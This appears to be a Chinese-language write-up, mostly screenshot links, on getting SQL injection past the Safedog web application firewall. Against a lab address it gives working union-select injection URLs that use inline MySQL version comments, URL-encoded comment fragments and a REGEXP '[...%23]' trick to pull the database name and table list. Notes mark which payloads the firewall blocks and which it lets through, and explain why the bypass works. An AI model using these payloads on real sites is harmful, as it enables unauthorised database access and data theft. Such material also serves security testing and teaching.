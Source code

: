 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222174211.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222174212.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222174214.png)

  

## 获取当前数据库和用户

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222174215.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222174216.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222174217.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222174219.png)

数据库同理

http://192.168.111.16/index.php?id=-1/ _%2a%%2f_ /union/ _%2f%2f_ //
_!50144select_ // _%2f%2f_ /1,database(/ _%2f%2f_ /)

## 获取数据库表

http://192.168.111.16/index.php?id=1/ _%2a%%2f_ /union/ _%2f%2f_ //
_!50441select_ // _%2f%2f_
/1,group_concat(table_name)%20from%20information_schema.tables%20where%20/
_wad_ /table_schema=database(/ _//_ /)

不拦截

http://192.168.111.16/index.php?id=-1%20/ _%2a%%2f_ /union/ _%2f%2f_ //
_!50144select_ // _%2f%2f_
/1,group_concat(table_name),3%20%20%0a%20%20from%20information_schema.tables%20where%20table_schema=database(/
_//_ /)

拦截

http://192.168.111.16/index.php?id=-1 REGEXP "[…%0a%23]" / _%2a%%2f_ /union/
_%2f%2f_ // _!50144select_ // _%2f%2f_ /1,group_concat(table_name),3  %0a
from information_schema.tables where table_schema=database(/ _//_ /)

这里其实REGEXP
"[…任意%23]"就行，在url解码%23变成了#，安全狗认为后面全都成为了注释符，带入到mysql层面其实%23只是正则的一个参数并不是注释符

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222174220.png)
